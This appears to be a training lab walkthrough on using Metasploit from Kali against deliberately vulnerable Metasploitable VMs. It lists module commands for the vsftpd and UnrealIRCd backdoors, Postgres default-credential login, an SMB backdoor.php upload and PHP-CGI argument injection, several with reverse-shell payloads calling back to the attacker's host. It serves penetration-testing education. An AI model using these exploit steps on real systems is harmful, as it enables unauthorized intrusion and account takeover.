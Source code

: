 ## Metasploit on the Linux Metasploitable2 

Here are several labs on running Metasploit from Kali on a Metasploitable3 Linux VM. Please make sure when you execute these labs you verify that home environment setup is working properly and you are able to scan the Metasploitable 3 Linux host from Kali using NMAP. Typically when you find the Metasploitable3 system it will have 5 or more open ports. This walkthrough is intended to get your familiar with the Metasploit tool and the options required to successfully execute the exploit.

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search vsftp`

2. Next run the use command with the exploit based on your search. If multiple exploits are found with that specific exploit name you may need to run each one seperately.

Example: `use exploit/unix/ftp/vsftpd_234_backdoor`

3. Next use the `show options` command to show the options required to execute the exploit

In this example the required options for vsftp are the following

RHOSTS = IP Address of host you are attacking `xxx.xxx.xxx.xxx`

RPORT = Port you are attacking which is port = `21`

Payload = In this example we used the following payload = `set payload cmd/unix/interact`

4. Finally to run the exploit you can use the `run` or `exploit` command to execute it.

## Postgres

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search postgres`

2. Now lets use the auxiliary scanner for postgres

`use auxiliary/scanner/postgres/postgres_login`

`set rhosts xxx.xxx.xxx.xxx`

3. Next use the `show options` command to show the options required to execute the exploit

`show options`

4. Set the required options

`set user_as_pass true`

`set username postgres`

`run` or `exploit`

5. The exploit was successful so you can now login to the system as the username and password with the same credentials by using the folloing sytax

`psql -h xxx.xxx.xxx.xxx -U postgres -W`

## Unreal IRC

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search unreal`

2. Now lets use the unreal exploit

`use exploit/unix/irc/unreal_ircd_3281_backdoor`

3. Next use the `show options` command to show the options required to execute the exploit

`show options`

4. Set the required options

`set rhost xxx.xxx.xxx.xxx` (IP of the host you are attacking)

`set rport 6697` (Port number IRC app is listening on)

`set lhost xxx.xxx.xxx.xxx` (IP of the Kail VM you are attacking from)

`set lport 4444` (Port on your system exploit and payload runs to create session)

`set payload cmd/unix/reverse`

`run` or `exploit`

## Samba FTP

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

2. Now lets use the auxiliary smb exploit

`use auxiliary/admin/smb/upload_file`

3. Next use the `show options` command to show the options required to execute the exploit

`show options`

4. Set the required options

`set rhosts xxx.xxx.xxx.xxx`

`set rport 445`

`set rport_ftp 21`

`set smbshare public`

`set smbuser chewbacca`

`set lpath /tmp/backdoor.php`

`set rpath backdoor.php`

`set lhost xxx.xxx.xxx.xxx` (this should be your kali linux IP address)

`set lport 4444` (Port on your system exploit and payload runs to create session)

`run` or `exploit`

## Apache 2.2.8

1. Start by searching for exploit based on port number and NMAP scan results of the NMAP -sV -O scan of your taget with the greatest number of open ports.

Example: `grep exploit search apache`

2. Since we have so many Apache exploits lets use an Auxlilary scanner to search for any potential exploits we can use.

`use auxiliary/scanner/http/dir_listing`

`set rhosts xxx.xxx.xxx.xxx`

`show options`

`run`

3. Since that was successful lets use an Auxlilary directory scanner to search for any potential exploits we can use.

`use auxiliary/scanner/http/dir_scanner`

`show options`

`run`

`set rhosts xxx.xxx.xxx.xxx`

`run`

4. Since that was successful lets use an Auxlilary file scanner to search for any potential exploits we can use.

`use auxiliary/scanner/http/files_dir`

`show options`

`run`

`set rhosts xxx.xxx.xxx.xxx`

`run`

5. Since that was successful lets use the verbose authorization bypass to search for any potential exploits we can use.

`use auxiliary/scanner/http/verb_auth_bypass`

`show options`

`set rhosts xxx.xxx.xxx.xxx`

`run`

6. Since that was unsuccessful lets use the php_cgi injection exploit to search for any potential exploits we can use.

`use exploit/multi/http/php_cgi_arg_injection`

`set rhosts xxx.xxx.xxx.xxx`

`show options`

`set lhost xxx.xxx.xxx.xxx`

`set lport 4444`

`run` or `exploit`
